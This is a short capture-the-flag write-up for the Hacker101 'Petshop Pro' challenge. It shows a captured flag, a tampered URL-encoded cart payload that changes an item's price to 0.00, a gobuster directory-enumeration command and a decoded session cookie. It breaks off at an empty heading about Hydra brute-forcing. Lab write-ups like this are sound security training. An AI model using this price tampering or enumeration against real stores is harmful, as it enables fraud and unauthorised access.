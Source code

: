# Petshop Pro


> ^FLAG^9d7fa75997dc1d5bd17fbd5fde7e8b6e7a559582cc6d122fbb300c138dd3ddf9$FLAG$ [0]
> 
> 


---


GET /add/0 HTTP/2
Host: 124e8ef093d261d2c39b9fca373cb7f4.ctf.hacker101.com
Cookie: session=eyJjYXJ0IjpbXX0.ZGrpfw.gjLwMk8UqLMFQWVEa-v9Wauu7PI

---

**Changing payment so we pay 0 dollar**

cart=%5B%5B0%2C+%7B%22name%22%3A+%22Kitten%22%2C+%22desc%22%3A+%228%5C%22x10%5C%22+color+glossy+photograph+of+a+kitten.%22%2C+%22logo%22%3A+%22kitten.jpg%22%2C+%22price%22%3A+8.95%7D%5D%5D


cart=%5B%5B0%2C+%7B%22name%22%3A+%22Kitten%22%2C+%22desc%22%3A+%228%5C%22x10%5C%22+color+glossy+photograph+of+a+kitten.%22%2C+%22logo%22%3A+%22kitten.jpg%22%2C+%22price%22%3A+0.00%7D%5D%5D

---

**Finding login page through subdomains iteration with gobuster**

>>> gobuster -u https://124e8ef093d261d2c39b9fca373cb7f4.ctf.hacker101.com/ -t 40 -w /usr/share/wordlists/common.txt
>>> https://124e8ef093d261d2c39b9fca373cb7f4.ctf.hacker101.com

> /cart
> /login


> eyJjYXJ0IjpbMCwxXSwibW9kaWZpZWQiOnRydWV9.ZGrtBA.1Bwm8TooKTWxQybCA3XCJq-AZ78
> {"cart":[0,1],"modified":true}

---

**Brute-forcing username/password with Hydra**


